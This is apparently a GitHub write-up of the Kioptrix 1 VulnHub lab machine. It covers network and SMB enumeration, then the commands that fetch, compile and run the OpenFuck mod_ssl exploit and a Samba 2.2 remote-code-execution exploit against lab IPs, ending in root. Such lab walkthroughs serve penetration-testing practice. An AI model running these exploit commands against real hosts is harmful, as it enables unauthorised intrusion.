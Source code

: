 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2](https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png)

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4

This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 

Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3](https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png)

 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4](https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png)


## 2. Samba Exploit

**1.enum4linux -a 192.168.1.10**

**2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\**

**3.nmap -p 139 --script=smb-vuln* 192.168.1.10**

**4.smbmap -P 139 -H 192.168.1.10**

**5.samba_version.py Github**

https://github.com/amitn322/smb-version/blob/master/samba_version.py

**python smb-version/samba_version.py -s 192.168.1.10**

![kio5](https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png)

**Version: Samba2.2**
** searchsploit samba 2.2 **

![kio6](https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png)



**Samba < 2.2.8 (Linux/BSD) - Remote Code Execution**


![kio7](https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8](https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png)


**Rooted**
